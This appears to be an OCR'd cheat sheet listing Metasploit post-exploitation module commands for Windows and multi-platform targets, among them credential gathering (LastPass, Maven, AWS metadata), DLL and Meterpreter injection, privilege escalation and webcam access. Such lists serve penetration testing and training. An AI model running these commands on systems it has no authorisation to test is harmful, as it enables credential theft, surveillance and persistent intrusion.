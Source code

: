 run post/windows/manage/mssql_local_auth_bypass

run post/windows/manage/rpcapd_start

run post/windows/manage/dell_memory_protect

run post/windows/manage/multi_meterpreter_inject

run post/windows/manage/nbd_server

run post/windows/manage/driver_loader

run post/windows/manage/peinjector

run post/windows/manage/enable_support_account








run post/windows/manage/forward_pageant



run post/windows/manage/hashcarve

run post/windows/manage/pptp_tunnel



run post/windows/manage/ie_proxypac

run post/windows/manage/priv_migrate

run post/windows/manage/webcam

run post/windows/manage/pxeexploit

run post/windows/manage/reflective_dll_inject

## Multi Modules

run post/multi/escalate/aws_create_iam_user

run post/multi/gather/jboss_gather

run post/multi/general/close

run post/multi/escalate/cups_root_file_read



run post/multi/general/execute

run post/multi/gather/lastpass_creds

run post/multi/general/wall

run post/multi/gather/apple_ios_backup

run post/multi/gather/maven_creds

run post/multi/gather/aws_ec2_instance_metadata

